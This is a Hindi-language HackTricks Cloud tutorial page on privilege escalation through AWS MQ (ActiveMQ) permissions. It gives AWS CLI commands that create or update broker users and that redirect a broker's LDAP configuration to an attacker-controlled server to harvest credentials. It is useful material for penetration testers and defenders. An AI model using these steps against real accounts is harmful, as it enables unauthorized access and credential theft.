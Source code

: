 # AWS - MQ Privesc

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो करें** [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}

## MQ

MQ के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../aws-services/aws-mq-enum.md" %}
[aws-mq-enum.md](../aws-services/aws-mq-enum.md)
{% endcontent-ref %}

### `mq:ListBrokers`, `mq:CreateUser`

इन अनुमतियों के साथ आप **एक ActimeMQ ब्रोकर में एक नया उपयोगकर्ता बना सकते हैं** (यह RabbitMQ में काम नहीं करता): 

{% code overflow="wrap" %}
```bash
aws mq list-brokers
aws mq create-user --broker-id <value> --console-access --password <value> --username <value>
```
{% endcode %}

**संभावित प्रभाव:** ActiveMQ के माध्यम से संवेदनशील जानकारी तक पहुँच

### `mq:ListBrokers`, `mq:ListUsers`, `mq:UpdateUser`

इन अनुमतियों के साथ आप **एक नए उपयोगकर्ता को ActimeMQ ब्रोकर में बना सकते हैं** (यह RabbitMQ में काम नहीं करता):

{% code overflow="wrap" %}
```bash
aws mq list-brokers
aws mq list-users --broker-id <value>
aws mq update-user --broker-id <value> --console-access --password <value> --username <value>
```
{% endcode %}

**संभावित प्रभाव:** ActiveMQ के माध्यम से संवेदनशील जानकारी तक पहुँच

### `mq:ListBrokers`, `mq:UpdateBroker`

यदि एक ब्रोकर **ActiveMQ** के साथ प्राधिकरण के लिए **LDAP** का उपयोग कर रहा है। तो **हमलावर द्वारा नियंत्रित** LDAP सर्वर की **कॉन्फ़िगरेशन** को **बदलना** संभव है। इस तरह हमलावर **LDAP के माध्यम से भेजे जा रहे सभी क्रेडेंशियल्स को चुराने** में सक्षम होगा।
```bash
aws mq list-brokers
aws mq update-broker --broker-id <value> --ldap-server-metadata=...
```
यदि आप किसी तरह ActiveMQ द्वारा उपयोग किए गए मूल क्रेडेंशियल्स को खोज सकते हैं, तो आप एक MitM कर सकते हैं, क्रेड्स चुरा सकते हैं, उन्हें मूल सर्वर में उपयोग कर सकते हैं, और प्रतिक्रिया भेज सकते हैं (शायद बस चुराए गए क्रेडेंशियल्स का पुन: उपयोग करके आप यह कर सकते हैं)।

**संभावित प्रभाव:** ActiveMQ क्रेडेंशियल्स चुराना

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **हमें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)** पर फॉलो करें।**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
